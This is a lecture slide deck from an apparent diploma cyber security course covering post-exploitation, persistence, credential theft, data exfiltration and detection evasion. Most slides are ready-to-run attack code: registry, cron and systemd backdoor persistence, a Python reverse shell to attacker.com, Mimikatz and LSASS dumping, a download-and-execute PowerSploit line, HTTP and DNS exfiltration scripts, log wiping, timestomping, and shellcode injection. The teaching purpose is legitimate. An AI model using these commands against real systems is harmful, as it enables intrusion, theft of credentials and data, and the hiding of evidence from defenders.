

# Post-Exploitation and Persistence
## Unit IV: Ethical Hacking
### Lecture 28: Maintaining Access and Advancing Attack Objectives

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Semester V | Diploma ICT | Author: Milav Dabgar
</div>

---
layout: default
---

# Understanding Post-Exploitation

<div class="grid grid-cols-2 gap-8">

<div>

## 🎯 What is Post-Exploitation?

**Post-exploitation** refers to the activities performed after successfully gaining initial access to a target system, focusing on maintaining access, escalating privileges, and achieving attack objectives.

### 📊 Post-Exploitation Statistics
- **Average dwell time**: 197 days before detection
- **Privilege escalation success**: 76% of breaches
- **Persistence establishment**: 89% of advanced attacks
- **Data exfiltration time**: 28 days average
- **Detection rate**: Only 31% of persistence detected

### 🔄 Post-Exploitation Phases


</div>

<div>

## 🎭 Key Objectives

### 🔍 Information Gathering
- System and network enumeration
- User account analysis  
- Installed software inventory
- Network topology mapping
- Security control identification

### 🚀 Access Expansion
- Privilege escalation techniques
- Additional user account compromise
- Service account harvesting
- Administrative access acquisition

### 🔗 Network Traversal
- Lateral movement planning
- Trust relationship exploitation
- Domain infrastructure compromise
- Multi-system access establishment

### 💾 Data Collection
- Sensitive data identification
- Database access and enumeration
- File system exploration
- Communication monitoring

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# System Enumeration Techniques

<div class="grid grid-cols-2 gap-8">

<div>

## 🖥️ Windows System Enumeration

### 📋 Basic System Information
```bash
# System details
systeminfo
hostname
whoami /all

# Network information
ipconfig /all
netstat -ano
route print

# User and group information
net users
net localgroup administrators
query user
```

### 🔍 Advanced Enumeration
```powershell
# Installed software
Get-WmiObject -Class Win32_Product | Select Name,Version

# Running processes
Get-Process | Select Name,Id,CPU

# Services
Get-Service | Where-Object {$_.Status -eq "Running"}

# Scheduled tasks
Get-ScheduledTask | Where State -eq Ready
```

</div>

<div>

## 🐧 Linux System Enumeration

### 📋 System Information Collection
```bash
# System details
uname -a
cat /etc/os-release
hostname
id

# Network configuration
ip addr show
ss -tulpn
cat /proc/net/route

# User information
cat /etc/passwd
cat /etc/group
w
last
```

### 🔍 Security-Focused Enumeration
```bash
# SUID/SGID files
find / -perm -4000 2>/dev/null
find / -perm -2000 2>/dev/null

# World writable files
find / -perm -002 2>/dev/null

# Cron jobs
crontab -l
cat /etc/crontab
ls -la /etc/cron*
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Windows Persistence Mechanisms

<div class="grid grid-cols-2 gap-8">

<div>

## 🏃 Startup Persistence

### 📝 Registry Run Keys
```batch
# Current user startup
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "C:\temp\backdoor.exe"

# All users startup
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "C:\temp\backdoor.exe"
```

### 📂 Startup Folders
```batch
# User startup folder
copy backdoor.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"

# All users startup folder  
copy backdoor.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"
```

### ⏰ Scheduled Tasks
```batch
# Create scheduled task
schtasks /create /tn "SecurityUpdate" /tr "C:\temp\backdoor.exe" /sc onlogon /ru SYSTEM

# Run every 5 minutes
schtasks /create /tn "SystemCheck" /tr "C:\temp\backdoor.exe" /sc minute /mo 5
```

</div>

<div>

## 🛠️ Service-Based Persistence

### 🔧 Windows Services
```batch
# Create new service
sc create "SecurityService" binpath= "C:\temp\backdoor.exe" start= auto DisplayName= "Security Update Service"

# Start the service
sc start "SecurityService"

# Modify existing service
sc config "Spooler" binpath= "C:\temp\backdoor.exe"
```

### 📊 WMI Event Persistence
```powershell
# WMI Event Filter
$Filter = Set-WmiInstance -Class __EventFilter -Arguments @{Name="SecurityFilter";EventNameSpace="root\cimv2";QueryLanguage="WQL";Query="SELECT * FROM Win32_LogonSession WHERE LogonType=2"}

# WMI Event Consumer
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Arguments @{Name="SecurityConsumer";CommandLineTemplate="C:\temp\backdoor.exe"}

# Bind Filter to Consumer
Set-WmiInstance -Class __FilterToConsumerBinding -Arguments @{Filter=$Filter;Consumer=$Consumer}
```

### 💻 PowerShell Profile
```powershell
# Add to PowerShell profile
echo 'Start-Process "C:\temp\backdoor.exe" -WindowStyle Hidden' >> $PROFILE
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Linux Persistence Techniques

<div class="grid grid-cols-2 gap-8">

<div>

## ⏰ Scheduled Task Persistence

### 📅 Cron Jobs
```bash
# User cron job (every 5 minutes)
echo "*/5 * * * * /tmp/backdoor" | crontab -

# System-wide cron
echo "*/5 * * * * root /tmp/backdoor" >> /etc/crontab

# Hourly cron
echo "#!/bin/bash" > /etc/cron.hourly/security-update
echo "/tmp/backdoor" >> /etc/cron.hourly/security-update
chmod +x /etc/cron.hourly/security-update
```

### 🚀 Startup Scripts
```bash
# RC.local persistence
echo "/tmp/backdoor &" >> /etc/rc.local

# Init.d service
cp /tmp/backdoor.sh /etc/init.d/security-update
update-rc.d security-update defaults

# Systemd service
cat > /etc/systemd/system/security.service << EOF
[Unit]
Description=Security Update Service

[Service]
ExecStart=/tmp/backdoor
Restart=always

[Install]
WantedBy=multi-user.target
EOF
systemctl enable security.service
```

</div>

<div>

## 📂 Profile and Configuration

### 🐚 Shell Profile Modification
```bash
# Bash profile
echo "/tmp/backdoor &" >> ~/.bashrc
echo "/tmp/backdoor &" >> ~/.bash_profile

# System-wide profile
echo "/tmp/backdoor &" >> /etc/profile
echo "/tmp/backdoor &" >> /etc/bash.bashrc
```

### 📚 Library Hijacking
```bash
# LD_PRELOAD persistence
echo "/tmp/malicious.so" >> /etc/ld.so.preload

# Library path manipulation
echo "/tmp/" >> /etc/ld.so.conf
ldconfig
```

### 🔑 SSH Key Persistence
```bash
# Add SSH public key
mkdir ~/.ssh 2>/dev/null
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

### 🔍 MOTD Persistence
```bash
# Message of the day
echo "/tmp/backdoor &" >> /etc/update-motd.d/00-header
chmod +x /etc/update-motd.d/00-header
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Advanced Persistence Methods

<div class="grid grid-cols-2 gap-8">

<div>

## 🔧 Rootkit-Style Persistence

### 🦠 Windows Rootkit Techniques
```yaml
Kernel-Level Persistence:
  - Driver installation and loading
  - System call hooking
  - Process hiding techniques
  - File and registry hiding
  - Network traffic concealment

User-Mode Rootkits:
  - DLL injection and hooking
  - Process hollowing
  - API hooking and redirection
  - Memory patching
  - Steganographic hiding
```

### 🐧 Linux Rootkit Methods
```yaml
Kernel Module Persistence:
  - Loadable kernel modules (LKMs)
  - System call table modification  
  - Process and file hiding
  - Network connection concealment
  - Log entry manipulation

User-Space Rootkits:
  - Library preloading
  - Binary replacement
  - Shared library injection
  - Process memory manipulation
  - Configuration file tampering
```

</div>

<div>

## 🌐 Network-Based Persistence

### 🔗 Backdoor Communication
```python
# Simple Python backdoor
import socket, subprocess, sys

def connect():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('attacker.com', 4444))
        
        while True:
            command = s.recv(1024).decode()
            if command.lower() == 'exit':
                break
            
            output = subprocess.getoutput(command)
            s.send(output.encode())
        
        s.close()
    except:
        pass

if __name__ == "__main__":
    connect()
```

### 📡 DNS Tunneling Persistence
```yaml
DNS Tunneling Benefits:
  - Bypasses firewall restrictions
  - Uses legitimate DNS traffic
  - Difficult to detect and block
  - Works in most network environments
  - Provides covert communication channel

Implementation Methods:
  - Custom DNS client/server
  - Existing tools (dnscat2, iodine)
  - Base64 encoded data transmission
  - Subdomain data exfiltration
  - TXT record command transmission
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Credential Harvesting and Reuse

<div class="grid grid-cols-2 gap-8">

<div>

## 🔑 Windows Credential Extraction

### 🧠 Memory-Based Extraction
```powershell
# Mimikatz - Extract plaintext passwords
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump LSASS process
tasklist /fi "imagename eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full

# PowerShell memory extraction
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

### 🗄️ Registry-Based Extraction
```batch
# SAM database dump
reg save HKLM\sam C:\temp\sam
reg save HKLM\security C:\temp\security  
reg save HKLM\system C:\temp\system

# Extract hashes with secretsdump
python secretsdump.py -sam sam -security security -system system LOCAL
```

</div>

<div>

## 🐧 Linux Credential Harvesting

### 📁 File-Based Extraction
```bash
# Shadow file access
cat /etc/shadow

# SSH keys collection
find / -name "id_rsa" 2>/dev/null
find / -name "id_dsa" 2>/dev/null
find / -name "*.pem" 2>/dev/null

# Configuration files with passwords
grep -r "password" /etc/ 2>/dev/null
find / -name "*.conf" -exec grep -l "pass" {} \; 2>/dev/null
```

### 🔍 History and Process Mining
```bash
# Command history
cat ~/.bash_history | grep -i "pass\|pwd\|login"
cat ~/.zsh_history | grep -i "pass\|pwd\|login"

# Process arguments with passwords
ps aux | grep -i "pass\|pwd"

# Environment variables
strings /proc/*/environ | grep -i "pass\|pwd"
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Data Exfiltration Methods

<div class="grid grid-cols-2 gap-8">

<div>

## 📤 Network-Based Exfiltration

### 🌐 HTTP/HTTPS Exfiltration
```python
# HTTP POST exfiltration
import requests
import base64

def exfiltrate_file(file_path, server_url):
    with open(file_path, 'rb') as f:
        data = base64.b64encode(f.read()).decode()
    
    payload = {'data': data, 'filename': file_path}
    requests.post(server_url, data=payload)

# HTTPS with SSL verification bypass
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
requests.post(server_url, data=payload, verify=False)
```

### 📧 Email Exfiltration
```python
# SMTP email exfiltration
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.base import MIMEBase
from email import encoders

def email_exfiltrate(file_path, email_server, from_addr, to_addr):
    msg = MIMEMultipart()
    msg['From'] = from_addr
    msg['To'] = to_addr
    msg['Subject'] = "System Report"
    
    with open(file_path, "rb") as f:
        part = MIMEBase('application', 'octet-stream')
        part.set_payload(f.read())
        encoders.encode_base64(part)
        part.add_header('Content-Disposition', f'attachment; filename= {file_path}')
        msg.attach(part)
    
    server = smtplib.SMTP(email_server, 587)
    server.send_message(msg)
```

</div>

<div>

## 🗃️ Steganographic Exfiltration

### 🖼️ Image Steganography
```python
# Hide data in image pixels
from PIL import Image
import binascii

def hide_data_in_image(image_path, data, output_path):
    img = Image.open(image_path)
    pixels = list(img.getdata())
    
    # Convert data to binary
    binary_data = ''.join(format(ord(char), '08b') for char in data)
    
    # Modify LSB of pixels
    data_index = 0
    for i in range(len(pixels)):
        if data_index < len(binary_data):
            pixel = list(pixels[i])
            pixel[0] = (pixel[0] & 0xFE) | int(binary_data[data_index])
            pixels[i] = tuple(pixel)
            data_index += 1
    
    img.putdata(pixels)
    img.save(output_path)
```

### 🔤 DNS Exfiltration
```bash
# DNS TXT record exfiltration
data=$(cat sensitive_file.txt | base64 -w 0)
for chunk in $(echo $data | fold -w 63); do
    nslookup -type=txt $chunk.attacker.com
done

# DNS subdomain exfiltration  
while read line; do
    encoded=$(echo $line | base64 -w 0)
    nslookup $encoded.exfil.attacker.com
done < sensitive_data.txt
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Anti-Forensics and Evasion

<div class="grid grid-cols-2 gap-8">

<div>

## 🧹 Log Cleaning and Manipulation

### 🪟 Windows Event Log Clearing
```batch
# Clear specific event logs
wevtutil cl Security
wevtutil cl Application
wevtutil cl System

# Clear all event logs
for /f "tokens=*" %1 in ('wevtutil.exe el') do wevtutil.exe cl "%1"

# Selective log entry removal
wevtutil qe Security /q:"*[System[EventID=4624]]" /f:text
```

### 🐧 Linux Log Manipulation
```bash
# Clear bash history
history -c
echo "" > ~/.bash_history

# Clear system logs
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
echo "" > /var/log/messages

# Remove specific entries
sed -i '/suspicious_command/d' ~/.bash_history
grep -v "attacker_ip" /var/log/auth.log > temp && mv temp /var/log/auth.log
```

</div>

<div>

## 🎭 Process and File Hiding

### 👻 Process Masquerading
```python
# Process name spoofing (Linux)
import sys
import ctypes
import ctypes.util

def set_process_name(name):
    libc = ctypes.CDLL(ctypes.util.find_library('c'))
    buff = ctypes.create_string_buffer(len(name) + 1)
    buff.value = name.encode()
    libc.prctl(15, ctypes.byref(buff), 0, 0, 0)

# Usage
set_process_name("system_update")
```

### 📂 File Attribute Manipulation
```batch
REM Windows file hiding
attrib +h +s +r malicious_file.exe

REM Timestomp - modify file timestamps
timestomp malicious_file.exe -f legitimate_file.exe

REM Linux file hiding
touch -r /bin/ls /tmp/backdoor
chattr +i /tmp/backdoor
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Detection Evasion Techniques

<div class="grid grid-cols-2 gap-8">

<div>

## 🛡️ Antivirus Evasion

### 🔄 Payload Encoding and Encryption
```python
# XOR encoding
def xor_encode(data, key):
    encoded = bytearray()
    for i, byte in enumerate(data):
        encoded.append(byte ^ key[i % len(key)])
    return bytes(encoded)

# Base64 + XOR combination
import base64
def multi_encode(data, xor_key):
    xor_encoded = xor_encode(data, xor_key)
    b64_encoded = base64.b64encode(xor_encoded)
    return b64_encoded

# Payload packing
original_payload = b"\x90\x90\x90\x31\xc0\x50\x68..."
key = b"SecretKey123"
encoded_payload = multi_encode(original_payload, key)
```

### ⏱️ Timing-Based Evasion
```python
# Sleep-based sandbox evasion
import time
import random

def sandbox_evasion():
    # Sleep for random duration
    sleep_time = random.randint(60, 300)  # 1-5 minutes
    time.sleep(sleep_time)
    
    # Check for virtualization
    try:
        with open('/proc/cpuinfo', 'r') as f:
            if 'hypervisor' in f.read().lower():
                exit()  # Exit if virtualized
    except:
        pass
    
    # Proceed with malicious activity
    execute_payload()
```

</div>

<div>

## 🕵️ Behavioral Evasion

### 🔀 Process Injection Techniques
```powershell
# PowerShell process injection
$code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

Add-Type -MemberDefinition $code -Name "Win32" -Namespace Win32Functions
$shellcode = [byte[]](0x90,0x90,0x90,0x31,0xc0,0x50,0x68)
$addr = [Win32Functions.Win32]::VirtualAlloc(0,[Math]::Max($shellcode.Length,0x1000),0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $addr, $shellcode.length)
$thread = [Win32Functions.Win32]::CreateThread(0,0,$addr,0,0,0)
```

### 🔍 EDR Evasion
```yaml
Common EDR Evasion Techniques:
  API Hooking Bypass:
    - Direct system calls
    - API function unhooking
    - Alternative API usage
    - Manual DLL loading

  Behavioral Analysis Evasion:
    - Legitimate process mimicking
    - Gradual activity execution
    - Environmental checks
    - User interaction requirements

  Memory Analysis Evasion:
    - Memory encryption
    - Code obfuscation
    - Reflective loading
    - Process hollowing
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Practical Exercise: Persistence Challenge

<div class="exercise-container">

## 🎯 Hands-On Challenge (30 minutes)

### Scenario: Corporate Network Persistence

Your team has gained initial access to **"SecureNet Corporation"** and must establish persistent access while avoiding detection by their security team.

### 🏢 Environment Details
**Target System Information:**
- **Windows 10 Enterprise** workstation (primary target)
- **Ubuntu 20.04 Server** (secondary target)
- **Active Directory domain** environment
- **Endpoint protection** (Windows Defender, CrowdStrike)
- **Network monitoring** (Splunk SIEM, network IDS)
- **Regular security scans** and patch management

### Phase 1: Persistence Strategy Planning (10 minutes)

**Team Assignment: Design Multi-Layer Persistence**

1. **Primary Persistence Mechanisms**
   - Select 3 different persistence methods for Windows
   - Choose 2 persistence techniques for Linux
   - Justify selection based on stealth and reliability

2. **Backup Persistence Methods**
   - Design fallback persistence mechanisms
   - Plan redundant access methods
   - Create persistence verification procedures

### Phase 2: Implementation Planning (12 minutes)

**Technical Implementation Design:**
1. **Windows Persistence Implementation**
   - Registry modification strategy
   - Service creation methodology
   - Scheduled task configuration
   - WMI event subscription design

2. **Linux Persistence Setup**
   - Cron job implementation
   - Systemd service creation
   - Profile modification approach
   - SSH key installation method

### Phase 3: Evasion and Stealth (8 minutes)

**Anti-Detection Strategy:**
1. **Stealth Techniques**
   - File and process hiding methods
   - Log cleaning and manipulation
   - Timestamp modification procedures
   - Communication channel obfuscation

2. **Detection Avoidance**
   - Antivirus evasion techniques
   - EDR bypass strategies
   - Network traffic concealment
   - Behavioral pattern mimicking

**Deliverables:**
- Multi-platform persistence implementation plan
- Stealth and evasion strategy document
- Backup and redundancy procedures
- Detection avoidance methodology

</div>

<style>
.exercise-container {
  @apply bg-purple-50 border-2 border-purple-300 rounded-lg p-6;
}
</style>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Questions & Discussion

## 🤔 Critical Analysis Points:
- How do you balance persistence reliability with stealth requirements?
- What ethical considerations apply to persistence in authorized testing?
- How can organizations detect and prevent persistence mechanisms?

### 💡 Exercise Review
Present your persistence strategies and discuss implementation approaches

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Thank You!

## Next Lecture: Social Engineering and Human Factor Exploitation
### The Human Element in Cybersecurity

<div class="pt-8 text-gray-500">
  <p>Cyber Security (4353204) - Lecture 28 Complete</p>
  <p>Persistence is the key to digital survival! 🔐⚡</p>
</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>